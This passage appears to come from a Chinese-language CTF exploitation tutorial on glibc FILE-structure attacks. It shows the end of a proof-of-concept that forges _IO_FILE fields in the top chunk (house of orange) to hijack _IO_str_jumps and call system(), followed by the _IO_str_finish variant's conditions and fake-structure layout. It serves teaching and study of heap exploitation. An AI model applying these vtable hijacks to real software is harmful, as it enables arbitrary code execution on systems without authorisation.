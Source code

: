 ```
    // top[0] = ~1;
    // top[0] &= ~8;
    top[0] = 0;
    top[4] = 0; // write_base
    top[5] = ((size_t)&binsh_in_libc-100)/2 + 1; // write_ptr
    top[7] = 0; // buf_base
    top[8] = top[5] - 1; // buf_end
    // house_of_orange conditions
    top[1] = 0x61;

    top[20] = (size_t) &top[18];
    top[21] = 2;
    top[22] = 3;
    top[24] = -1;
    top[27] = (size_t)stdin - 0x3868-0x18; // _IO_str_jumps地址
    top[28] = (size_t) &winner;

    /* Finally, trigger the whole chain by calling malloc */
    malloc(10);
    return 0;
}
int winner(char *ptr)
{ 
    system(ptr);
    return 0;
}
```

### _IO_str_jumps -> finish

原理与上面的 _IO_str_jumps -> overflow 类似

```
void
_IO_str_finish (_IO_FILE *fp, int dummy)
{
  if (fp->_IO_buf_base && !(fp->_flags & _IO_USER_BUF))
    (((_IO_strfile *) fp)->_s._free_buffer) (fp->_IO_buf_base);  //[fp+0xe8]
  fp->_IO_buf_base = NULL;

  _IO_default_finish (fp, 0);
}
```

条件：

1. _IO_buf_base 不为空
2. _flags & _IO_USER_BUF(0x01) 为假

构造如下：

```
_flags = (binsh_in_libc + 0x10) & ~1
_IO_buf_base = binsh_addr

_freeres_list = 0x2
_freeres_buf = 0x3
_mode = -1
vtable = _IO_str_finish - 0x18
fp+0xe8 -> system_addr
```
